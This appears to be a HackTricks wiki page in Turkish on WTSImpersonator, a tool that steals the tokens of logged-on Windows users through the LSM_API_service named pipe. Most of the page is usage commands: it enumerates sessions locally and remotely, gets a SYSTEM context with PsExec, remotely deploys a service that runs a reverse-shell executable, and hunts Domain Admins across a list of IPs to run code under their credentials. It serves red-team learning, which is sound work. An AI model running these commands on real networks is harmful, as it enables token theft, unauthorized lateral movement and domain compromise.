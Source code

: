{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**WTS Impersonator** aracı, **"\\pipe\LSM_API_service"** RPC İsimli borusunu kullanarak, oturum açmış kullanıcıları gizlice listeleyip, onların token'larını ele geçirir ve geleneksel Token Taklit tekniklerini atlar. Bu yaklaşım, ağlar içinde sorunsuz yan hareketler sağlamaktadır. Bu tekniğin yeniliği, **Omri Baso'ya atfedilmektedir; çalışmaları [GitHub](https://github.com/OmriBaso/WTSImpersonator)** üzerinden erişilebilir. 

### Temel İşlevsellik
Araç, bir dizi API çağrısı aracılığıyla çalışır:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Ana Modüller ve Kullanım
- **Kullanıcıları Listeleme**: Araç ile yerel ve uzaktan kullanıcı listeleme mümkündür, her iki senaryo için komutlar kullanarak:
- Yerel olarak:
```powershell
.\WTSImpersonator.exe -m enum
```
- Uzak olarak, bir IP adresi veya ana bilgisayar adı belirterek:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Komutları Çalıştırma**: `exec` ve `exec-remote` modülleri çalışmak için bir **Hizmet** bağlamına ihtiyaç duyar. Yerel yürütme, yalnızca WTSImpersonator çalıştırılabilir dosyasını ve bir komutu gerektirir:
- Yerel komut yürütme örneği:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- Hizmet bağlamı elde etmek için PsExec64.exe kullanılabilir:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Uzak Komut Yürütme**: PsExec.exe'ye benzer şekilde uzaktan bir hizmet oluşturmayı ve yüklemeyi içerir, uygun izinlerle yürütmeye olanak tanır.
- Uzak yürütme örneği:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Kullanıcı Avlama Modülü**: Birden fazla makinede belirli kullanıcıları hedef alır, onların kimlik bilgileri altında kod yürütür. Bu, birden fazla sistemde yerel yönetici haklarına sahip Alan Yöneticilerini hedef almak için özellikle yararlıdır.
- Kullanım örneği:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/KULLANICI -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
